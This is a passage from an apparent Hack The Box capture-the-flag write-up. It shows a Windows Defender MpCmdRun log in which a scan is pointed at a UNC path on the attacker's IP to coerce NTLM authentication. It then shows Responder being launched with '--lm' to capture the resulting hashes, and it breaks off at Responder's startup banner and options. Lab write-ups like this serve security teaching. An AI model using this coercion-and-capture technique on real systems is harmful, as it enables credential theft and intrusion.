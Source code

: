 ```powershell
 Start Time:  Thu  Apr  01  2021 22:28:56

MpEnsureProcessMitigationPolicy: hr = 0x0

Starting RunCommandScan.

MpCmdRun.exe: hr = 0x80070667.

MpCmdRun: End Time:  Thu  Apr  01  2021 22:28:56

-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------

MpCmdRun: Command Line: "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe" -Scan -ScanType 3 -file \\10.10.14.187\test

 Start Time:  Thu  Apr  01  2021 22:29:07

MpEnsureProcessMitigationPolicy: hr = 0x0

Starting RunCommandScan.

INFO: ScheduleJob is not set. Skipping signature update.

Scanning path as file: \\10.10.14.187\test.

Start: MpScan(MP_FEATURE_SUPPORTED, dwOptions=16385, path \\10.10.14.187\test, DisableRemediation = 0, BootSectorScan = 0, Timeout in days = 1)

MpScan() started

Warning: MpScan() encounter errror. hr = 0x80508023

MpScan() was completed

ERROR: MpScan(dwOptions=16385) Completion Failed 80508023

MpCmdRun.exe: hr = 0x80508023.

MpCmdRun: End Time:  Thu  Apr  01  2021 22:29:11

-------------------------------------------------------------------------------------
```

The scan reported that it failed after doing each of its checks.

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ sudo responder -I tun0 --lm           
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
  
...snipped...

[+] Generic Options:
```